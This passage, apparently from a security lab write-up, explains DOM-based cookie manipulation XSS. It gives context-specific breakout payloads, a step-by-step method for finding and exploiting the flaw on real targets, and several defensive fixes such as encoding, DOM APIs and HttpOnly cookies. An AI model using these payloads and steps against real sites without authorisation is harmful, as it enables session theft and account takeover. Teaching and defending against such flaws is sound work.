// If homepage template uses backtick (template literal edge case):
// href=`VALUE` → terminated by `
// Payload: &`><script>print()</script>

// Test all quoting variants when actual source isn't readable!
```

---

### **Variation 5: Persistent Attack Beyond the Lab**

```js
In a real bug bounty / pentest scenario:

Step 1: Find that cookie X is set from location.href (or any URL part)
  → Test: visit /product?test=CANARY
  → Check: does cookie X contain "CANARY"? → write confirmed!

Step 2: Find where cookie X is rendered into the DOM
  → Look for: document.write, innerHTML, .src, .href, .action using the cookie
  → Test: set cookie X to a canary → visit relevant page → is canary in source?

Step 3: Determine the HTML context the cookie lands in:
  → In href="VALUE"  → payload: '><script>...
  → In innerHTML     → payload: 
  → In a <script>    → payload: ";alert(1)//
  → In a URL         → payload: javascript:alert(1)

Step 4: Craft full two-stage exploit
Step 5: Report with CVSS score based on impact:
  → Cookie theft → account takeover → High/Critical
  → Defacement → Medium
  → Phishing via redirect → Medium/High
```

---

## 🔍 **How to Find DOM-Based Cookie Manipulation**

```js
Source hunting — find where cookies are WRITTEN from attacker data:

Search for in JavaScript:
  document.cookie =        ← anything being SET
  .cookie =                ← cookie write
  setCookie(              ← custom cookie functions
  Cookies.set(            ← cookie library writes

Then check: what VALUE is being stored?
  document.cookie = "name=" + location.href    ← VULNERABLE (URL → cookie)
  document.cookie = "name=" + location.search  ← VULNERABLE (query → cookie)
  document.cookie = "name=" + location.hash    ← VULNERABLE (hash → cookie)
  document.cookie = "name=" + document.referrer ← VULNERABLE (referrer → cookie)
  document.cookie = "name=" + userInput        ← VULNERABLE (user data → cookie)

Sink hunting — find where cookies are READ into dangerous output:

Search for in JavaScript:
  document.write(         ← CRITICAL: most dangerous
  innerHTML =             ← HIGH: HTML injection
  outerHTML =             ← HIGH: HTML injection
  .src =                  ← MEDIUM: URL/JS injection
  .href =                 ← MEDIUM: URL/JS injection
  location.href =         ← HIGH: navigation/JS

Then check: does the value come from document.cookie?
  var c = document.cookie; ...
  document.write('<a href="' + c.split('name=')[1] + '">');  ← VULNERABLE!

Manual test sequence:
  1. Visit page that should set the cookie: /product?test=XSSCANARY
  2. Check DevTools → Application → Cookies → find cookie with XSSCANARY
  3. Navigate to page that renders the cookie (e.g. homepage)
  4. DevTools → Elements → Ctrl+F → search for XSSCANARY
     → If found in an attribute or script: XSS context confirmed!
  5. Craft breakout payload for that specific HTML context
  6. Build two-stage iframe exploit
```

---
---

## 🛡️ **How to Fix DOM-Based Cookie Manipulation**

---

### **Fix 1: Sanitise Before Writing to Cookie**

```r
// ❌ VULNERABLE — raw URL goes into cookie:
document.cookie = "lastViewedProduct=" + window.location.href + "; SameSite=None; Secure";


// ✅ SECURE Option A — URL-encode the value before storing:
document.cookie = "lastViewedProduct="
    + encodeURIComponent(window.location.href)
    + "; SameSite=None; Secure";

// encodeURIComponent converts dangerous chars:
//   ' → %27
//   > → %3E
//   < → %3C
//   " → %22
// So when read back and used in HTML: %3E does NOT close HTML tags!
// The URL still works when decoded, but can't inject HTML.


// ✅ SECURE Option B — Store only the path, not the full URL:
var safePath = window.location.pathname + window.location.search;
// Validate it's a real product path:
if (/^\/product\?productId=\d+$/.test(safePath)) {
    document.cookie = "lastViewedProduct=" + safePath + "; SameSite=None; Secure";
}
// → Rejects anything with XSS chars (payload fails the regex)
// → Only stores /product?productId=NUMBER → safe, predictable format
```

---

### **Fix 2: Sanitise When Reading from Cookie for DOM Output**

```r
// ❌ VULNERABLE — raw cookie value into document.write:
document.write('<a href="' + cookieValue + '">Last viewed product</a>');


// ✅ SECURE Option A — use createElement instead of document.write:
if (cookieValue) {
    var link = document.createElement('a');

    // Validate it's a same-origin URL before using:
    try {
        var parsed = new URL(cookieValue, window.location.origin);
        if (parsed.origin === window.location.origin) {
            link.href = parsed.href;   // safe: href property (not innerHTML)
        } else {
            link.href = '/';           // reject cross-origin
        }
    } catch(e) {
        link.href = '/';
    }

    link.textContent = 'Last viewed product';  // textContent (not innerHTML)
    document.getElementById('lastViewed').appendChild(link);
}
// createElement sets .href properly — the browser validates the URL
// It does NOT inject raw HTML → no breakout possible!


// ✅ SECURE Option B — use URL validation + HTML encoding:
function htmlEncode(str) {
    return str
        .replace(/&/g, '&amp;')
        .replace(/</g, '&lt;')
        .replace(/>/g, '&gt;')
        .replace(/"/g, '&quot;')
        .replace(/'/g, '&#x27;');
}

if (cookieValue) {
    document.write('<a href="' + htmlEncode(cookieValue) + '">Last viewed product</a>');
}
// htmlEncode converts: > → &gt;  which does NOT close HTML tags!
// Payload after encoding: &amp;&#x27;&gt;&lt;script&gt;print()&lt;/script&gt;
// Browser renders this as visible text, not as HTML → safe!
```

---

### **Fix 3: Replace `document.write` Entirely**

```r
// ❌ VULNERABLE pattern to eliminate:
document.write('<a href="' + cookieValue + '">Last viewed product</a>');


// ✅ BEST PRACTICE — never use document.write for user-controlled data:

// Use DOM APIs instead:
var container = document.getElementById('lastViewedContainer');

if (cookieValue && container) {
    var a = document.createElement('a');
    a.href = cookieValue;       // browser-validated URL assignment
    a.textContent = 'Last viewed product';  // no HTML injection
    container.appendChild(a);
}

// In the HTML, add the container:
// <div id="lastViewedContainer"></div>

// Why document.write is categorically bad:
//   → Executes during page load: can corrupt page if called after load
//   → Parses raw HTML: any injected < > chars become real HTML
//   → No escaping: no protection against injection
//   → Modern code: document.write should NEVER be used with any data
//     that isn't 100% hardcoded server-side content
```

---

### **Fix 4: HttpOnly Cookie + Server-Side Rendering**

```r
// ROOT CAUSE fix: don't use client-side cookies for this feature at all!

// ❌ CLIENT-SIDE: JavaScript sets and reads cookie → attacker can poison it

// ✅ SERVER-SIDE: server tracks last viewed product
// When user visits /product?productId=2:
//   Server sets:  Set-Cookie: lastViewedProduct=2; HttpOnly; Secure; SameSite=Lax
//   → HttpOnly: JavaScript CANNOT read this cookie at all!
//   → Server reads the cookie on homepage request
//   → Server renders: <a href="/product?productId=2">Last viewed product</a>
//      (server-side validated product ID — no XSS possible)

// Why HttpOnly kills DOM-based cookie manipulation:
//   → document.cookie cannot READ HttpOnly cookies
//   → JavaScript cannot write the poisoned URL to an HttpOnly cookie
//   → The entire attack chain is broken at the source!
//   → Server renders the link safely with its own validated data
```

---

### **Fix Summary — Priority Order**

```js
Priority 1 — HttpOnly + server-side "last viewed" tracking:
  ✅ Set-Cookie: lastViewedProduct=ID; HttpOnly
  → JS cannot read or write it → DOM attack impossible

Priority 2 — Use DOM APIs not document.write:
  ✅ createElement + .href + .textContent instead of document.write
  → No raw HTML injection possible

Priority 3 — Sanitise cookie value when writing:
  ✅ encodeURIComponent(location.href) before storing
  → Dangerous chars encoded → breakout impossible even if read by JS

Priority 4 — Validate cookie value when reading:
  ✅ URL constructor + same-origin check before using
  → Reject any cookie value that isn't a valid same-origin path

Priority 5 — Allowlist product IDs:
  ✅ Store only /product?productId=NUMBER format
  → Regex validates format on write → only integers stored → no injection
```

---
